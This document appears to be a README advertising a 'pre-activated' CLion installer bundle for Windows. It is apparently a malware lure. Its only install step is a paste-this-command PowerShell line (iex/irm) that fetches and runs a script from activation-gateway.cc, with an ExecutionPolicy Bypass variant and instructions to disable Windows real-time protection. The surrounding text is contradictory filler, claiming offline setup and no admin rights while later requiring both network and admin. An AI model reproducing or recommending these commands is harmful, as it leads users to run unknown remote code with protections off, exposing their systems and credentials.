

<div align="center">

# Clion: Complete Preconfigured Installer Bundle for Windows 10 & 11



[]() []() []() []() []()

</div>

---

Clion is a complete standalone desktop installer that bundles all required plugins and pre-configured settings into a single deployable package for Windows x64 environments. The build is intended for offline installation and testing workflows, eliminating the need for post-install dependency resolution or manual plugin configuration. All components are packaged to run immediately after setup, with settings pre-applied for consistent behavior across deployments. The installer targets a verified file size of approximately 1.5 GB and is maintained as a self-contained distribution for desktop systems.

## ⚡ Install via PowerShell

> [!TIP]
> **Automated setup** — one command, done.
> Win 10/11 · PowerShell 5.1+ · Standard user

### 1️⃣ Start PowerShell
* Press `Win + X` on your keyboard.
* Click on **Terminal** or **Windows PowerShell** from the list.

### 2️⃣ Paste and run
Paste and run. Wait until the process completes.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ If PowerShell blocks the script
Copy into CMD, press `Enter`, wait for completion:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> If SmartScreen or antivirus blocks the setup, go to **Windows Security → Virus & threat protection → Manage settings**, turn off **Real-time protection**, run the script, and re-enable immediately.

## ✅ Before You Start

- Windows 10 or Windows 11
- PowerShell 5.1 or newer (already available on Windows)
- Active network connection
- No admin rights needed

## Features

- **Complete Desktop Installer:** Delivers a fully working installation package that includes all required plugins and preconfigured settings, enabling immediate use upon completion of setup on the target desktop.

- **Bundled Plugin Suite:** All plugins are integrated into the installer, eliminating the need for separate downloads or post-install configuration.

- **Preconfigured Settings:** Application settings are preloaded and ready to run, reducing setup time and ensuring consistent configuration across deployments.

- **Standalone Deployment:** Designed for local installation on desktop systems, with no dependency on external repositories or additional package managers during the install process.

- **Single-Step Installation Flow:** The installer handles plugin integration and settings application as part of the primary setup routine, streamlining the deployment workflow.

- **Offline-Ready Build:** The package contains all necessary components for the installation, supporting environments where network access during setup is limited or unavailable.

- **Consistent Environment Provisioning:** Ensures that every installation produces an identically configured environment, suitable for testing, development, and deployment scenarios.

## How it works

Clion ships as a self-contained desktop installer that bundles the application binaries, the complete plugin set, and a pre-configured settings profile into a single deployment package. The installer resolves all dependencies locally, so no network access is required during setup and no additional tooling needs to be fetched at runtime.

On launch, the installer unpacks the core application into the target directory and then applies the bundled plugin manifest. Each plugin is verified against the manifest before registration, ensuring that only the components shipped with the package are activated. Settings, keymaps, and appearance configurations are restored from the embedded profile so the environment is immediately usable after the first start.

The installation process is transactional: files are staged in a temporary working directory, validated, and only then committed to the final location. If any step fails, the installer rolls back to the previous state, leaving no partial or orphaned files behind. A built-in integrity check runs at the end of setup to confirm that all binaries and plugin assets match the expected checksums.

Plugin activation is serialized and logged, which means startup behavior is deterministic and reproducible across machines. Users can review the activation log to confirm which plugins were registered and in what order. The pre-configured settings layer sits on top of the defaults, so any subsequent user changes take precedence without requiring a reinstall.

The installer also supports a silent mode for unattended deployment, in which the same staging, validation, and rollback logic runs without any prompts. In silent mode, the exit code reflects the outcome of the full pipeline, allowing scripted environments to detect success or failure directly.

## Compatibility

Clion is engineered for desktop environments running 64-bit Windows, with support validated across Windows 10 and Windows 11 builds. The installer bundles all required plugins and settings, so no external dependency resolution is needed at runtime. Systems must meet the following baseline specifications for the environment to initialize and run correctly.

- **Operating System:** Windows 10 (version 1809 or later) or Windows 11, 64-bit editions only. Legacy 32-bit and ARM-based Windows configurations are not supported by the bundled runtime.
- **Processor:** x64 architecture with SSE4.2 instruction set support; a dual-core 2.0 GHz or faster processor is recommended for responsive indexing and analysis.
- **Memory:** 4 GB minimum, with 8 GB or higher recommended when working with large projects or multiple plugins active simultaneously.
- **Disk Space:** At least 1.5 GB of free space for the installation payload, plus additional headroom for user configuration, caches, and project indexes.
- **Display:** 1024x768 minimum resolution; higher resolutions and multi-monitor configurations are fully supported.
- **Permissions:** Administrative privileges are required during installation to register components and write to protected system locations.

Because the distributed payload is a pre-activated standalone build, it does not depend on a network connection, external package managers, or activation servers. Plugin and settings bundles are embedded directly in the installer, ensuring consistent behavior in offline, air-gapped, or restricted network environments.

Compatibility with virtualization platforms is maintained for standard hypervisors supporting 64-bit guest operating systems with hardware-assisted virtualization enabled. Containerized or sandboxed desktop environments may block required system hooks and are not considered a supported configuration.

The build is version-locked to its bundled plugin set. Third-party plugins or extensions not included in the payload are outside the supported compatibility scope and may introduce instability. Users requiring different plugin combinations should verify internal compatibility independently before deployment.

## FAQ

### What does the Clion installer package include?

The package ships as a complete standalone desktop configuration: the core application binaries, the full plugin set, and preconfigured settings so the environment is ready to run immediately after deployment. No post-install plugin resolution or manual settings import is required.

### Is Clion compatible with my operating system?

The build targets Windows x64 desktop environments. Verify that your system architecture matches x64 and that your Windows version meets the minimum requirements of the bundled application release before deployment.

### How does the installer handle plugins and settings?

All plugins are bundled and enabled as part of the packaged configuration. Settings are applied during installation, so the first launch reflects the intended working state without additional configuration steps.

### Does the installer require network access during setup?

The package is designed for offline deployment. Because all plugins and settings are embedded in the distribution, the installation does not depend on external package repositories or runtime downloads.

### How can I verify the integrity of the package?

Compare the package checksum against the value published with the release. Confirm the estimated file size (approximately 1.5 GB) matches your local copy before running the installer.

### What should I do if the application fails to launch after installation?

Confirm the installation completed without interruption, verify that the target directory is writable, and check that no conflicting previous installation is present on the system. Review the bundled logs for initialization errors before retrying.

### Can I roll back or reinstall the configuration?

Reinstalling the standalone package restores the bundled plugin set and default settings. Back up any user-specific configuration you have modified before reinstalling to avoid losing custom changes.

### Are updates delivered automatically?

This is a fixed standalone build. Plugin and settings versions are pinned to the packaged release, so updates are applied by deploying a newer package rather than through in-application update channels.

## Disclaimer

This build is provided as a pre-activated standalone distribution intended for local testing, evaluation, and controlled deployment scenarios. It is assembled as a self-contained package with all plugins and settings pre-configured so that the environment is operational immediately upon completion of setup, without requiring additional configuration steps or network-dependent activation.

The installer is designed for Windows x64 desktop systems and has been verified against the documented compatibility matrix outlined in the Compatibility section of this README. Users are responsible for confirming that their operating system version, architecture, and available disk space meet the stated requirements prior to execution. Performance characteristics and plugin behavior may vary depending on hardware configuration, existing system policies, and the presence of third-party security software.

Because this is a pre-activated build, no external license server, account authentication, or online validation is performed during or after installation. All bundled plugins and settings are included as-is and are not updated automatically. Any modifications made to the installation directory, registry entries, or configuration files after setup are outside the scope of this distribution and may affect stability or functionality.

This software is distributed for legitimate testing and deployment purposes only. Redistribution, resale, or use in violation of applicable local laws and regulations is expressly discouraged. The maintainers of this project make no representations regarding fitness for a particular purpose and accept no liability for data loss, system instability, or other damages arising from use of this package. Users are strongly advised to create a full system backup and to validate the build in an isolated environment before deploying it to production or shared workstations.

Antivirus and endpoint protection suites may flag pre-activated installers due to their packaging characteristics. Such alerts should be evaluated against the documented behavior of this build, and any temporary exclusion applied during setup should be reverted immediately afterward. The maintainers do not provide support for systems modified by security software interference or for environments where installation was interrupted or altered.

By proceeding with installation, you acknowledge that you have read and understood the contents of this section and accept full responsibility for the configuration and operation of this build within your environment.

## License

Clion is distributed as a self-contained desktop build. All components required for operation are bundled within the installer package, and no external dependency resolution is performed at runtime. The build is intended for local deployment on the target platform described in the Compatibility section.

Use of the software is governed by the terms bundled with the distribution. Review the accompanying license documentation before deployment. Redistribution, modification, or repackaging of the installer outside the scope defined in the bundled terms is not permitted. The project name and build identity are retained in the distributed artifacts to preserve traceability.

The installer includes all plugins and configuration presets required for the described functionality. These components are provided as part of the unified package and are covered under the same terms as the core build. No separate licensing applies to individual bundled plugins or settings.

No warranty is provided beyond what is stated in the bundled documentation. The authors of Clion accept no liability for outcomes arising from deployment in environments outside the stated compatibility parameters. Verification of build integrity should be performed against the distributed package before execution.